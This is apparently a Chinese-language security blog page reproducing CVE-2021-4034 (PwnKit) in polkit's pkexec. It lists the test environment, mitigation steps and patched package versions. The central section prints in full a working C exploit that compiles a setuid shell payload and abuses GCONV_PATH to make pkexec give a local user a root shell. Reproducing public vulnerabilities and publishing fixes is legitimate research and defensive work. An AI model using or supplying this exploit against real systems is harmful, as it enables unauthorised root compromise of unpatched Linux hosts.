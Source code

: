 ```yaml
---
layout: about
category: about
Researchname: Polkit-CVE-2021-4034复现
permalink: /about/polkit-CVE-2021-4034/
author: Bin4xin
toc: true
desc: 「polkit」
---
```


> 2022-01-25，CVE-2021-4034利用详情发布。
> 
> 该漏洞是Qualys研究团队在polkit的pkexec中发现的一个内存损坏漏洞，允许非特权用户获取root权限。

## 影响版本

[不影响版本](#%E4%BF%AE%E5%A4%8D)

### 复现环境

```bash
$ uname -a
Linux ubuntu 5.8.0-55-generic #62~20.04.1-Ubuntu SMP Wed Jun 2 08:55:04 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

$ pkexec --version
pkexec version 0.105
```

### 结果

![Feb-09-2022-16-01-18.gif]({{site.PicturesLinks_Domain}}/images/2022/02/09/Feb-09-2022-16-01-18.gif)

## EXP[来源](https://haxx.in/files/blasty-vs-pkexec.c)

```cpp
/*
 * blasty-vs-pkexec.c -- by blasty <peter@haxx.in> 
 * ------------------------------------------------
 * PoC for CVE-2021-4034, shout out to Qualys
 *
 * ctf quality exploit
 *
 * bla bla irresponsible disclosure
 *
 * -- blasty // 2022-01-25
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>

void fatal(char *f) {
    perror(f);
    exit(-1);
}

void compile_so() {
    FILE *f = fopen("payload.c", "wb");
    if (f == NULL) {
        fatal("fopen");
    }

    char so_code[]=
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n"
        "void gconv() {\n"
        "  return;\n"
        "}\n"
        "void gconv_init() {\n"
        "  setuid(0); seteuid(0); setgid(0); setegid(0);\n"
        "  static char *a_argv[] = { \"sh\", NULL };\n"
        "  static char *a_envp[] = { \"PATH=/bin:/usr/bin:/sbin\", NULL };\n"
        "  execve(\"/bin/sh\", a_argv, a_envp);\n"
        "  exit(0);\n"
        "}\n";

    fwrite(so_code, strlen(so_code), 1, f);
    fclose(f);

    system("gcc -o payload.so -shared -fPIC payload.c");
}

int main(int argc, char *argv[]) {
    struct stat st;
    char *a_argv[]={ NULL };
    char *a_envp[]={
        "lol",
        "PATH=GCONV_PATH=.",
        "LC_MESSAGES=en_US.UTF-8",
        "XAUTHORITY=../LOL",
        "GIO_USE_VFS=",
        NULL
    };

    printf("[~] compile helper..\n");
    compile_so();

    if (stat("GCONV_PATH=.", &st) < 0) {
        if(mkdir("GCONV_PATH=.", 0777) < 0) {
            fatal("mkdir");
        }
        int fd = open("GCONV_PATH=./lol", O_CREAT|O_RDWR, 0777); 
        if (fd < 0) {
            fatal("open");
        }
        close(fd);
    }

    if (stat("lol", &st) < 0) {
        if(mkdir("lol", 0777) < 0) {
            fatal("mkdir");
        }
        FILE *fp = fopen("lol/gconv-modules", "wb");
        if(fp == NULL) {
            fatal("fopen");
        }
        fprintf(fp, "module  UTF-8//    INTERNAL    ../payload    2\n");
        fclose(fp);
    }

    printf("[~] maybe get shell now?\n");

    execve("/usr/bin/pkexec", a_argv, a_envp);
}
```

### 修复

```bash
chmod 0755 /usr/bin/pkexec
```
或 升级至不影响版本 
```
========================================================================
CentOS：

CentOS 6：polkit-0.96-11.el6_10.2
CentOS 7：polkit-0.112-26.el7_9.1
CentOS 8.0：polkit-0.115-13.el8_5.1
CentOS 8.2：polkit-0.115-11.el8_2.2
CentOS 8.4：polkit-0.115-11.el8_4.2
========================================================================
Ubuntu：

Ubuntu 14.04 ESM：policykit-1-0.105-4ubuntu3.14.04.6+esm1
Ubuntu 16.04 ESM：policykit-1-0.105-14.1ubuntu0.5+esm1
Ubuntu 18.04 LTS：policykit-1-0.105-20ubuntu0.18.04.6
Ubuntu 20.04 LTS：policykit-1-0.105-26ubuntu1.2
Ubuntu 21.10：policykit-1-0.105-31ubuntu0.1
========================================================================
Debain：

：policykit-1 0.105-18+deb9u2
Debain stretch：policykit-1 0.105-18+deb9u2
Debain buster：policykit-1 0.105-25+deb10u1
Debain bullseye：policykit-1 0.105-31+deb11u1
Debain bookworm,bullseye：policykit-1 0.105-31.1
========================================================================
```

### 参考

- [pwnkit: Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt){:target="_blank"}
- [CVE-2021-4034 pkexec提权漏洞分析](https://saucer-man.com/information_security/876.html#cl-3){:target="_blank"}
- [Linux polkit权限提升漏洞修复方法（CVE-2021-4034）](https://moneyslow.com/linux-polket%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%B3%95%EF%BC%88cve-2021-4034%EF%BC%89.html){:target="_blank"}

以上。
